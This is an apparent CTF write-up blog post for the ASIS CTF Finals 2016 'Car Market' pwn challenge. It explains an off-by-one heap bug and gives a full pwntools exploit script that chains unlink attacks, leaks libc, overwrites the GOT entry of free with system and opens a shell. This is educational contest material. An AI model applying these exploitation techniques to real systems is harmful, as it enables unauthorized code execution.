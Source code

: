 ```yaml
---
layout: post
alias: "/blog/2016/09/12/asis-ctf-finals-2016-car-market/"
date: "2016-09-12T02:26:51+09:00"
title: "ASIS CTF Finals 2016: Car Market"
tags: [ "ctf", "writeup", "asis-ctf", "pwn", "heap", "unlink-attack", "glibc" ]
---
```


Good problem.

## solution

A problem of heap, and the `malloc`/`free` are the ones of latest glibc.
Structures are below. There is a off-by-one, which the `name` of `customer_t` leaks the null byte and rewrites the least byte of `comment` with null.

``` c
car_t **g_cars = malloc(sizeof(car_t *) * 256);  // 0x6020c8
struct car_t {
    char name[16];  // 0x0
    int price;  // 0x10
    customer_t *customer;  // 0x18
}
struct customer_t {
    char firstname[32];  // 0x0
    char name[32];  // 0x20
    char *comment; // 0x40
}
```

There are `g_cars`, list of malloced pointes, so we can bypass the check `q->fd->bk == q` and `q->bk->fd == q` and do unlink attack.
See <https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c>.

However `x->customer` (used as `x->bk`) of a car pointer `x` is not our controll, so I did with $2$ steps.
At first, let `x->customer->comment` be a pointer of another car `y` (because `y` is on the list `g_cars`), `y->price` (`y->fd`) be the `g_cars + k` where `(g_cars + k)->bk == y`, and `*(y->customer + 0x10)` (`y->bk->fd`) be `y`.
Then free the `x` (and `x->customer`).
This causes use after free, so we can make a customer which is listed on the car list.
Secondly, do the similar thing and write the address the car list on the car list itself.
Now we can read/write arbitrary address, and get the flag.


## implementation

``` python
#!/usr/bin/env python2
import time
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='car-market.asis-ctf.ir')
parser.add_argument('port', nargs='?', default=31337, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./car_market')
libc = ELF('./libc.so.6') # ubuntu 16.04
p = remote(args.host, args.port)

def prompt(*xs):
    p.recvuntil('>\n')
    for x in xs:
        if isinstance(x, int):
            x = str(x)
        p.sendline(x)

# 1: list
# 2: add Car
# 3: remove car
# 4: select car
# 5: exit
list_cars = lambda: prompt(1)
add_car = lambda model, price: prompt(2, model, price)
remove_car = lambda index: prompt(3, index)
select_car = lambda index: prompt(4, index)
exit = lambda: prompt(5)

# 1: info
# 2: set model
# 3: set price
# 4: add customer
# 5: exit
info_car = lambda: prompt(1)
set_model = lambda s: prompt(2, s)
set_price = lambda s: prompt(3, s)
add_customer = lambda: prompt(4)
exit_car = lambda: prompt(5)

# 1: set name
# 2: set firstname
# 3: set comment
# 4: exit
set_name = lambda s: prompt(1, s)
set_firstname = lambda s: prompt(2, s)
set_comment = lambda s: prompt(3, s)
exit_customer = lambda: prompt(4)

for i in range(20):
    add_car(('car %d ' % i).ljust(15, 'X'), u32('YYYY'))
    select_car(i)
    if i != 11:
        add_customer()
        set_firstname(('customer %d' % i).ljust(0x20, 'A'))
        set_name('B' * 0x20)
        set_comment('C' * 0x48)
        exit_customer()
    exit_car()

# leak heap address
select_car(0)
add_customer()
set_firstname(('customer %d' % 0).ljust(0x20, 'A'))
set_name('B' * 0x20)
set_comment('C' * 0x48)
exit_customer()
info_car()
p.recvuntil('Name : ')
name = p.recvline(keepends=False)
heap_base = u64(name[0x20 :].ljust(8, '\0')) - 0x8a0
log.info('heap base: %#x', heap_base)
exit_car()
pointer_vector = lambda i: heap_base+0x10+i*8

# make fake chunks on a car
bk = 0x18
select_car(9)
set_price(pointer_vector(9) - bk)
add_customer()
set_firstname('A' * 16 + p64(heap_base + 0xf70))
set_comment(p64(0x80) + p64(0xc0))
exit_customer()
exit_car()

# first unlink
select_car(10)
add_customer()
set_comment('C')
set_name('B' * 0x20)
exit_customer()
add_customer() # free
exit_customer()
exit_car()

# make a customer who is listed on the pointer_vector, and make a fake chunk on it
fd = 0x10
bk = 0x18
select_car(11)
add_customer()
set_name('B' * 16 + p64(pointer_vector(9) - bk) + p64(pointer_vector(9) - fd))
exit_customer()
exit_car()

# make an another fake chunk
select_car(12)
add_customer()
set_comment('C' * 48 + p64(0x250) + p64(0x90))
exit_customer()
exit_car()

# second unlink
select_car(13)
add_customer()
set_comment('C')
set_name('B' * 0x20)
exit_customer()
add_customer() # free
exit_customer()
exit_car()

# read libc base
select_car(9)
set_model(p64(elf.got['setvbuf']))
exit_car()
select_car(6)
info_car()
p.recvuntil('Model  : ')
libc_base = u64(p.recvuntil(' \n')[: -2 ].ljust(8, '\0')) - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)
exit_car()

# got overwrite
select_car(9)
set_model(p64(elf.got['free']))
exit_car()
select_car(6)
set_model(p64(libc_base + libc.symbols['system']).rstrip('\0'))
exit_car()

# set /bin/sh
select_car(9)
set_model('/bin/sh\0')
exit_car()

# run
remove_car(9)

time.sleep(1)
p.sendline('id')
p.interactive()
```
